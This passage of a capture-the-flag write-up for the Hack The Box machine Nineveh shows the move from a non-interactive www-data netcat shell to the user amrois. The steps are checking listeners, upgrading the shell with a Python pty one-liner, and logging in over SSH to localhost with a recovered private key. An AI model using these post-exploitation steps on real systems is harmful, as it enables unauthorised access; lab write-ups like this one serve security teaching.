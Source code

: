 ```
002c0770  66 52 71 6c 73 6d 53 36  53 63 2f 67 55 66 6c 6d  |fRqlsmS6Sc/gUflm|
```
## amrois@nineveh.htb

Before we celebrate this awesome finding, recall nmap results, port 22 is closed. SSH might be running on a different port or it is just filtered. Check the listeners while still on www-data shell.
```
$ netstat -plnt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address       	Foreign Address     	State   	PID/Program name
tcp    	0  	0 0.0.0.0:80          	0.0.0.0:*           	LISTEN  	-          	 
tcp    	0  	0 0.0.0.0:22          	0.0.0.0:*           	LISTEN  	-          	 
tcp    	0  	0 0.0.0.0:443         	0.0.0.0:*           	LISTEN  	-          	 
tcp6   	0  	0 :::22               	:::*                	LISTEN  	-
```

Okay, let's connect from localhost. The simplest way to transfer the key (at least from what I know) is via ``python -m SimpleHTTPServer *port*`` and then just download it with ``wget``

```
ssh -i ssh.key amrois@127.0.0.1
Pseudo-terminal will not be allocated because stdin is not a terminal.
Could not create directory '/var/www/.ssh'.
Host key verification failed.
```
The ``nc`` shell we have is non-interactive, upgrade it with pty so it is cool enough to do ssh.
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@nineveh:/var/tmp$ ssh -i ssh.key amrois@127.0.0.1
ssh -i ssh.key amrois@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management: 	https://landscape.canonical.com
 * Support:    	https://ubuntu.com/advantage

133 packages can be updated.
66 updates are security updates.


You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$
```
## RootTheBox
